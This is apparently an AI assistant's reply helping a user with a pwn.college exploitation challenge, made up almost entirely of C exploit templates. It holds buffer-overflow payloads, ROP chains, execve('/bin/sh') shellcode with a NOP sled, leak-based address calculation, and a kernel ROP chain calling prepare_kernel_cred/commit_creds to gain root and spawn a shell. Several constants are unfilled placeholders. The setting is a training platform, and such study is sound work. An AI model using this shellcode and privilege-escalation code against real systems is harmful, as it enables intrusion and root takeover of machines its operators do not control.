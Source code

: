 Great! Yes, in minimal kernel environments, C is often the most reliable option.

For ROP chains and shellcode in C, here are the key techniques:

## 1. Basic Buffer Overflow Setup

```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>

int main() {
    char payload[1024];
    
    // Build your payload
    memset(payload, 'A', sizeof(payload));
    
    // Write to vulnerable device
    FILE *f = fopen("/proc/pwncollege", "w");
    fwrite(payload, 1, sizeof(payload), f);
    fclose(f);
    
    return 0;
}
```

## 2. ROP Chain Construction

```c
#include <stdio.h>
#include <stdint.h>

int main() {
    char payload[1024];
    uint64_t *rop = (uint64_t*)(payload + OFFSET_TO_RETURN_ADDRESS);
    
    // Example ROP chain
    rop[0] = 0x401234;  // pop rdi; ret
    rop[1] = 0x42424242; // argument for rdi
    rop[2] = 0x401567;  // pop rsi; ret
    rop[3] = 0x43434343; // argument for rsi
    rop[4] = 0x400890;  // system() or target function
    
    FILE *f = fopen("/proc/pwncollege", "w");
    fwrite(payload, 1, sizeof(payload), f);
    fclose(f);
    
    return 0;
}
```

## 3. Shellcode Injection

```c
#include <stdio.h>
#include <string.h>

int main() {
    // x86_64 execve("/bin/sh") shellcode
    unsigned char shellcode[] = 
        "\x48\x31\xf6"                // xor rsi, rsi
        "\x56"                        // push rsi
        "\x48\xbf\x2f\x62\x69\x6e"   // mov rdi, '/bin'
        "\x2f\x73\x68\x00"           // '/sh\0'
        "\x57"                        // push rdi
        "\x54"                        // push rsp
        "\x5f"                        // pop rdi
        "\x6a\x3b"                    // push 0x3b
        "\x58"                        // pop rax
        "\x99"                        // cdq
        "\x0f\x05";                   // syscall
    
    char payload[1024];
    memset(payload, 0x90, sizeof(payload)); // NOP sled
    
    // Place shellcode
    memcpy(payload + 100, shellcode, sizeof(shellcode)-1);
    
    // Overwrite return address to point to shellcode
    uint64_t *ret_addr = (uint64_t*)(payload + OFFSET);
    *ret_addr = SHELLCODE_ADDRESS; // Address where shellcode will be
    
    FILE *f = fopen("/proc/pwncollege", "w");
    fwrite(payload, 1, sizeof(payload), f);
    fclose(f);
    
    return 0;
}
```

## 4. Helper Functions for Address Calculation

```c
#include <stdio.h>
#include <stdint.h>

// Pack 64-bit address
void pack64(char *buf, uint64_t addr) {
    *(uint64_t*)buf = addr;
}

// Pack 32-bit address
void pack32(char *buf, uint32_t addr) {
    *(uint32_t*)buf = addr;
}

int main() {
    char payload[1024] = {0};
    
    // Fill with pattern
    for(int i = 0; i < 100; i++) {
        payload[i] = 'A' + (i % 26);
    }
    
    // Overwrite specific offsets
    pack64(payload + 72, 0x401234);  // RIP control
    pack64(payload + 80, 0x7fff0000); // Stack address
    
    FILE *f = fopen("/proc/pwncollege", "w");
    fwrite(payload, 1, sizeof(payload), f);
    fclose(f);
    
    return 0;
}
```

## 5. Reading Leaked Addresses

```c
#include <stdio.h>

int main() {
    char buffer[1024];
    
    // Trigger leak
    FILE *f = fopen("/proc/pwncollege", "r");
    size_t bytes = fread(buffer, 1, sizeof(buffer), f);
    fclose(f);
    
    // Parse leaked addresses
    uint64_t *leaked = (uint64_t*)(buffer + LEAK_OFFSET);
    uint64_t base_addr = *leaked - KNOWN_OFFSET;
    
    printf("Leaked address: 0x%lx\n", *leaked);
    printf("Calculated base: 0x%lx\n", base_addr);
    
    // Use in second stage
    char payload[1024];
    uint64_t *rop = (uint64_t*)(payload + RET_OFFSET);
    rop[0] = base_addr + GADGET_OFFSET;
    
    f = fopen("/proc/pwncollege", "w");
    fwrite(payload, 1, sizeof(payload), f);
    fclose(f);
    
    return 0;
}
```

## 6. For Kernel Exploitation

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main() {
    char payload[1024];
    
    // Kernel ROP to escalate privileges
    uint64_t *rop = (uint64_t*)(payload + OFFSET);
    
    rop[0] = PREPARE_KERNEL_CRED;  // prepare_kernel_cred(0)
    rop[1] = 0;                    // NULL argument
    rop[2] = COMMIT_CREDS;         // commit_creds(result)
    rop[3] = SWAPGS_RESTORE;       // return to userland
    rop[4] = (uint64_t)getuid;     // return to user function
    
    FILE *f = fopen("/proc/pwncollege", "w");
    fwrite(payload, 1, sizeof(payload), f);
    fclose(f);
    
    // Check if we got root
    if (getuid() == 0) {
        printf("Got root!\n");
        system("/bin/sh");
    }
    
    return 0;
}
```

## Key Tips:

1. **Use `objdump` or `readelf`** to find gadgets and addresses
2. **Compile statically** for minimal environments: `gcc -static exploit.c -o exploit`
3. **Test incrementally** - build payload step by step
4. **Use hex editors** if needed: `xxd`, `hexdump`
5. **Check ASLR/protections** with `cat /proc/sys/kernel/randomize_va_space`

For your specific challenge, you'll need to:
1. Find the exact offset to control RIP
2. Locate useful gadgets or shellcode injection points
3. Build the payload systematically

Want help with any specific exploitation technique for your challenge?
